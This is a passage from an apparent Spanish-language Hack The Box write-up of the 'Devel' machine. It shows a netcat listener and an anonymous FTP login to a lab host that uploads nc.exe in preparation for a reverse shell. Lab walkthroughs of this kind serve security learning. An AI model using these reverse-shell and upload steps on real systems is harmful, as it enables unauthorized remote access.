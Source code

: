 ![](/assets/images/htb-writeup-devel/Captura5.png)

<p align="center">
<img src="/assets/images/htb-writeup-devel/Captura6.png">
</p>

Bien, por último, vamos a obtener acceso mandando una sesión desde la **CMD** de la página web hacia nuestra máquina, utilizando una **netcat** ejecutable, osea el **nc.exe**.

Levanta una **netcat**:
```bash
rlwrap nc -nvlp 443                                    
listening on [any] 443 ...
```

Carga la **nc.exe** en la máquina víctima en el **servicio FTP**:
```batch
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:berserkwings): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put nc.exe
...
```
